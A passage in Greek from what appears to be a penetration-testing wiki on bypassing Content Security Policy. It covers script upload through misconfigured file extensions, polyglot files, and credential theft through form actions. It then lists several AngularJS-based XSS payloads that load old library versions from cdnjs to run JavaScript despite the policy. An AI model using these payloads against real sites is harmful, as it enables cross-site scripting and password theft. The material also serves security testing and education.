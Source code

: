 Επιπλέον, ακόμα κι αν μπορούσατε να ανεβάσετε έναν κώδικα JS μέσα σε ένα αρχείο χρησιμοποιώντας μια επέκταση που αποδέχεται ο διακομιστής (όπως: _script.png_), αυτό δεν θα είναι αρκετό επειδή ορισμένοι διακομιστές όπως ο διακομιστής Apache επιλέγουν τον τύπο MIME του αρχείου με βάση την επέκταση και οι περιηγητές όπως ο Chrome θα αρνηθούν να εκτελέσουν κώδικα Javascript μέσα σε κάτι που θα έπρεπε να είναι μια εικόνα. "Ευτυχώς", υπάρχουν λάθη. Για παράδειγμα, από ένα CTF μάθαινα ότι ο Apache δεν γνωρίζει την επέκταση _**.wave**_, επομένως δεν την εξυπηρετεί με έναν τύπο MIME όπως audio/\*.

Από εδώ, αν βρείτε ένα XSS και ένα ανέβασμα αρχείου και καταφέρετε να βρείτε μια λανθασμένη επέκταση, μπορείτε να δοκιμάσετε να ανεβάσετε ένα αρχείο με αυτήν την επέκταση και το περιεχόμενο του script. Ή, αν ο διακομιστής ελέγχει τη σωστή μορφή του ανεβασμένου αρχείου, δημιουργήστε έναν πολύγλωττο ([κάποια παραδείγματα πολύγλωτων εδώ](https://github.com/Polydet/polyglot-database)).

### Ενέργεια φόρμας

Αν δεν είναι δυνατή η ενσωμάτωση JS, μπορείτε ακόμα να δοκιμάσετε να εξαγάγετε, για παράδειγμα, διαπιστευτήρια ενσωματώνοντας μια ενέργεια φόρμας (και ίσως περιμένοντας οι διαχειριστές κωδικών πρόσβασης να συμπληρώνουν αυτόματα τους κωδικούς πρόσβασης). Μπορείτε να βρείτε ένα [**παράδειγμα σε αυτήν την αναφορά**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp). Επίσης, παρατηρήστε ότι το `default-src` δεν καλύπτει τις ενέργειες φόρμας.

### Τρίτες Συνδέσεις + ('unsafe-eval')

{% hint style="warning" %}
Για μερικά από τα ακόλουθα φορτία **δεν απαιτείται καν το `unsafe-eval`**.
{% endhint %}
```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```
Φορτώστε μια ευάλωτη έκδοση του Angular και εκτελέστε αυθαίρετο JS:
```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
</script>
<img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
#### Payloads χρησιμοποιώντας το Angular + μια βιβλιοθήκη με συναρτήσεις που επιστρέφουν το αντικείμενο `window` ([έλεγξε αυτή την ανάρτηση](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):
